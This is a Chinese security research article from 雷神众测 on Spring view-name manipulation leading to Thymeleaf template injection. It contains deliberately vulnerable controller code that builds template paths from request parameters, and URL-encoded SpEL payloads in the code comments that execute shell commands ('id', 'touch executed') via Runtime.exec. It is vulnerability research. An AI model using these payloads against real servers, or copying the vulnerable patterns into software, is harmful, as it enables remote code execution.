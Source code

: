\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/pJGE7nS2zg-tuz4YPf7Xgw)

_**声明**_

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测以及文章作者不为此承担任何责任。  
雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

_**_**No.1  
**_**_

_**概述**_

知识点起源于一个小哥的 GitHub 的 demo，已经在 **R****eference** 提及了，核心观点想要表达如果能操纵 spring 的视图（view）是一件很危险的事情，紧接着用到了 **Thymeleaf** 这个模版来举例子。

_**_**No.2  
**_**_

_**跟踪过程**_

小哥在代码中举了两个例子，这两个例子分别是由相同的特征，返回的内容可被攻击者操纵。

```
//GET /path?lang=en HTTP/1.1
    //GET /path?lang=\_\_$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d\_\_::.x
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return "user/" + lang + "/welcome"; //template path is tainted
    }

    //GET /fragment?section=main
    //GET /fragment?section=\_\_$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22touch%20executed%22).getInputStream()).next()%7d\_\_::.x
    @GetMapping("/fragment")
    public String fragment(@RequestParam String section) {
        return "welcome :: " + section; //fragment is tainted
    }
```

这里先慢慢看，spring 的模版处理在这里 **org.springframework.web.servlet.ViewView# render** ，根据注释可以知道这个地方是个接口，要实现需要到相关模版渲染引擎单中去实现。

```
/\*\*
   \* Render the view given the specified model.
   \* <p>The first step will be preparing the request: In the JSP case, this would mean
   \* setting model objects as request attributes. The second step will be the actual
   \* rendering of the view, for example including the JSP via a RequestDispatcher.
   \* @param model a Map with name Strings as keys and corresponding model
   \* objects as values (Map can also be {@code null} in case of empty model)
   \* @param request current HTTP request
   \* @param response he HTTP response we are building
   \* @throws Exception if rendering failed
   \*/
  void render(@Nullable Map<String, ?> model, HttpServletRequest request, HttpServletResponse response)
      throws Exception;

}
```
